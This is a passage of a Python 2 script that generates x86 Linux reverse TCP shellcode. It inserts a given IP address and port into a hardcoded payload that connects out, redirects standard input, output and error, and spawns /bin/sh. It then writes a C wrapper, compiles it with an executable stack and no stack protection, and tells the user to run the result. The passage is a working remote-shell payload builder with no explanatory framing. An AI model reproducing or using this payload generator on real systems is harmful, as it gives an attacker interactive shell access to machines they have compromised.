 ```python
	return binascii.unhexlify("".join([addr[i:i+2] for i in range(0, len(addr), 2)]))
	

if __name__ == "__main__":
	if sys.argv[2] is not None:
		try:
			port = port2hex(int(sys.argv[2]))
			address = address2hex(sys.argv[1])
			port_check = [port.encode('hex')[i:i+2] for i in range(0, len(port.encode('hex')), 2)]
			address_check = [address.encode('hex')[i:i+2] for i in range(0, len(address.encode('hex')), 2)]
			nullbytes = False
			for i in port_check:
				if (i == "00"):
					print "[-] The port contains null bytes, use another port"
					nullbytes = True
			for i in address_check:
				if (i == "00"):
					print "[-] The address contains null bytes."
					nullbytes = True
			shellcode = "\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68%s\x66\x68%s\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"%(address,port)
			sc = ""
			for c in bytearray(shellcode):
    				sc += "\\x%02x" % c
			shellcode_c = '#include<stdio.h>\n\
#include<string.h>\n\
unsigned char code[] = "%s";\n\
main(){\n\
printf("Shellcode Length: %%d\\n", strlen(code));\n\
int (*ret)() = (int(*)())code;\n\
ret();\n\
}'%sc
			with open("shellcode_tmp.c", "w") as f:
				f.write(shellcode_c)
			os.system("gcc shellcode_tmp.c -fno-stack-protector -z execstack -o shellcode")
			os.system("rm shellcode_tmp.c")
			if nullbytes:
				print "[+] Reverse TCP shellcode created with null bytes\n[+] Run ./shellcode"
			else:
				print "[+] Reverse TCP shellcode created\n[+] Run ./shellcode"
		except ValueError:
			print "[-] Port must be a number"
	else:
		print "usage: %prog <port> \nExample: ./%prog 192.168.1.64 4444"

```


